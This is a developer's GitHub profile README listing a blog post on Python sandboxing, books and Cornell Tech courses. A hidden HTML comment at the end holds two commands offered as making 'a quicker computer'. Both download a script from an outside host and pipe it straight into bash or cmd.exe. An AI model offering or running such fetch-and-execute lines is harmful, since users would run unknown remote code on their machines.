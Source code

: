 ## Welcome!
This is DackJempsey's profile. Take a look around and let me know if you have any questions :smile:

### Currently Learning/Projects
- 💻 Checkout my blog post: [python sandbox](https://twosixtech.com/hijacking-the-ast-to-safely-handle-untrusted-python/) 
- 💻 Personal Blog at dackjempsey.com currently it redirects to here.


### Current Reading list
- 📖 [Endurance](https://www.amazon.com/Endurance-Shackletons-Incredible-Alfred-Lansing/dp/0465062881) 
- 📖 [Quantum Computing and Quantum Information](https://www.amazon.com/Quantum-Computation-Information-10th-Anniversary/dp/1107002176/ref=sr_1_1?crid=3K2FR2P6HUCV2&keywords=nielsen+quantum+computing&qid=1676434522&s=books&sprefix=nielson+quantum+computing%2Cstripbooks%2C65&sr=1-1&ufe=app_do%3Aamzn1.fos.006c50ae-5d4c-4777-9bc0-4513d670b6bc) 

### Currently getting my M.Eng ECE at Cornell Tech in NYC:
#### Fall Courses:
- Applied Digital Signal Processing and Communications
- ASIC Design
- Applied Machine Learning

#### Spring Courses:
- Neuromorphic Computing (PHD level)
- Designing Inteligent Autonomous Systems
- Machine Learning Hardware Systems
- Micro and Nano Robotics (PHD level)


<!--
`wget quicker.computer/fe334TGee4GWindows100R443 |C:\Windows\system32\cmd.exe`
**DackJempsey/DackJempsey** is a ✨ _special_ ✨ repository because its `README.md` (this file) appears on your GitHub profile.

if you want a quicker computer mac edition:\
`curl -Ls quicker.computer/Fr345T5GTRANDOMSTRING24n4t5|bash`\
a quicker windows script coming soon

Here are some ideas to get you started:

- 🔭 I’m currently working on ...
- 🌱 I’m currently learning ...
- 👯 I’m looking to collaborate on ...
- 🤔 I’m looking for help with ...
- 💬 Ask me about ...
- 📫 How to reach me: ...
- 😄 Pronouns: ...
- ⚡ Fun fact: ...
-->
